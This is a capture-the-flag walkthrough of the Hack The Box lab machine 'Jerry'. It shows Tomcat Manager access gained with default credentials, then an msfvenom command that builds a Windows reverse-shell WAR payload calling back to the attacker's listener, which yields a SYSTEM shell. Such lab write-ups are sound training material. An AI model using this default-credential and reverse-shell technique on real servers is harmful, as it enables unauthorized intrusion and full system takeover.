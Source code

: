 # Jerry

# Enumeration

## Nmap

I start running a simple nmap scan.

```bash
nmap -sC -sV -Pn jerry.htb > nmap.txt
```

The scan shows only port 8080 open, running Apache Tomcat.

![Untitled](Jerry%200c633c1a629c483082ab7699938ec313/Untitled.png)

Since there’s only one place to go, I’ll see what I can find.

## Website

This looks like a default page for Apache Tomcat. Theres a few things I can click on, but the one that sticks out the most is the Manager App.

![Untitled](Jerry%200c633c1a629c483082ab7699938ec313/Untitled%201.png)

When I try to click on the Manager App button, I am prompted for login. Because this is a default page, my immediate thought is to try some default credentials. Googling default credentials for Tomcat returns [this](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) handy list of credentials.

After trying a few of the basic combinations (admin:password, admin:admin, root:root), i decide to try tomcat:s3cret, which lets me in!

![Untitled](Jerry%200c633c1a629c483082ab7699938ec313/Untitled%202.png)

Although I got lucky with trying this combination from the list of 29 combinations, I later realized that the credentials were much easier to find. By closing the login screen, this window will pop up:

![Untitled](Jerry%200c633c1a629c483082ab7699938ec313/Untitled%203.png)

The example credentials that are given are tomcat:s3cret, which I believe was how the creator intended users to find the credentials, rather than brute forcing it. Regardless, I’m in and will now look around a bit more.

## Manager App

The first thing that catches my eye in this Manager App is the section to upload a file

![Untitled](Jerry%200c633c1a629c483082ab7699938ec313/Untitled%204.png)

Because I’m not sure what a WAR file is, it’s time to do some googling! This [wikipedia](https://en.wikipedia.org/wiki/WAR_(file_format)#:~:text=In%20software%20engineering%2C%20a%20WAR,that%20together%20constitute%20a%20web) page reveals that a WAR (Web Application Resource) file is a file used to distribute various resources needed to run a web application. These files can contain Java code, which is all I needed to hear!

# Exploitation

## WAR Payload

A bit more research shows that I can craft a payload in msfvenom formatted as a war file! Ill specify that I want a windows reverse shell, because this is a windows box, along with the ip and port to send the shell to. Using `-f` I can then tell msfvenom to format this payload as a war file.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > rev.war
```

I send the full command to msfvenom and get my file outputted as `rev.war`!

![Untitled](Jerry%200c633c1a629c483082ab7699938ec313/Untitled%205.png)

Once I upload the file, it shows up in the dashboard and it’s ready to go!

![Untitled](Jerry%200c633c1a629c483082ab7699938ec313/Untitled%206.png)

## Reverse Shell

I’ll set up a netcat listner over port 1234 and try to run the file by clicking on the file. When I try clicking on the file, I am greeted with a 404 Status Error page.

![Untitled](Jerry%200c633c1a629c483082ab7699938ec313/Untitled%207.png)

After a bit of troubleshooting, I discover that this is because i formatted my reverse shell as a windows payload, formatted as a WAR file. What I should have done is was used a java payload instead. Because I used a windows payload, it gets converted to a `.jsp` (Java Service Page) and then formatted as a WAR file, so when the file is launched the system doesn’t know to launch the `.jsp`. What I need to do is find the name of the `.jsp` file so I can specify that in the URL.

This can be done by running the `jar` command against the payload, with the `-ft` commands. `-f` specifies the file, and `-t` will list the table of contents for the file.

![Untitled](Jerry%200c633c1a629c483082ab7699938ec313/Untitled%208.png)

Now that I know the file name, I can add this to the end of the URL to execute the payload and get the reverse shell back to my machine.

![Untitled](Jerry%200c633c1a629c483082ab7699938ec313/Untitled%209.png)

I run a whoami to find that I have a system shell!

![Untitled](Jerry%200c633c1a629c483082ab7699938ec313/Untitled%2010.png)

## Flags

There is a folder on the administrator desktop named flags, which contains one file that has both flags!

![Untitled](Jerry%200c633c1a629c483082ab7699938ec313/Untitled%2011.png)